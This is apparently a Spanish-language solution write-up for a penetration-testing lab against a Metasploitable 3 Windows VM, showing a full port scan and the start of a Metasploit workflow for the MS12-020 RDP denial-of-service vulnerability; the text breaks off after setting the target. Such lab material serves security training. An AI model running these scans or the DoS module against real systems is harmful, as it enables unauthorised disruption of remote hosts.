 #Solucionario del Laboratorio 1

TARGET: 192.168.109.174 (METASPLOITABLE 3 WINDOWS)

##  Enumeración de servicios

Ejecutamos scan
```
scan 192.168.109.174
```
Estos son los resultados

```
scan 192.168.109.174
[*] OS based on TTL
Windows
[*] Full TCP Scan
Open ports: 139,135,22,8022,8019,8027,445,1617,3306,3389,3700,4848,5985,7676,8009,8020,8028,8031,8032,8383,8181,8282,8080,8443,8444,8585,8686,8484,9200,9300,49321,47001,49210,49152,49155,49154,49156,49153,49256,49266,49268,49177,49178,49317,49320,49322
```

##  Solucionario

### Pregunta 1 	Explote la vulnerabilidad MS12-020, adjunte evidencia 

Se revisa de que trata la vulnerabilidad

![image](https://user-images.githubusercontent.com/50930193/173705182-41f11b11-ec3f-48c7-bc3e-790eed6235a4.png)

Se revisa que se trata de la eplotación del Puerto 3389 – RDP y que permite denegación de servicio (DOS) Explotación DoS dicha
vulnerabilidad puede aprovechar de una condición de denegación de servicio en la máquina remota. 

Metasploit tiene un par de módulos para probar y explotar esta vulnerabilidad. Veamos
```
msf6 > search MS12-020

Matching Modules
================

   #  Name                                              Disclosure Date  Rank    Check  Description
   -  ----                                              ---------------  ----    -----  -----------
   0  auxiliary/scanner/rdp/ms12_020_check                               normal  Yes    MS12-020 Microsoft Remote Desktop Checker
   1  auxiliary/dos/windows/rdp/ms12_020_maxchannelids  2012-03-16       normal  No     MS12-020 Microsoft Remote Desktop Use-After-Free DoS


Interact with a module by name or index. For example info 1, use 1 or use auxiliary/dos/windows/rdp/ms12_020_maxchannelids

msf6 > use 0
msf6 auxiliary(scanner/rdp/ms12_020_check) > show options

Module options (auxiliary/scanner/rdp/ms12_020_check):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   RHOSTS                    yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT    3389             yes       Remote port running RDP (TCP)
   THREADS  1                yes       The number of concurrent threads (max one per host)

msf6 auxiliary(scanner/rdp/ms12_020_check) > set RHOSTS 192.168.109.174
```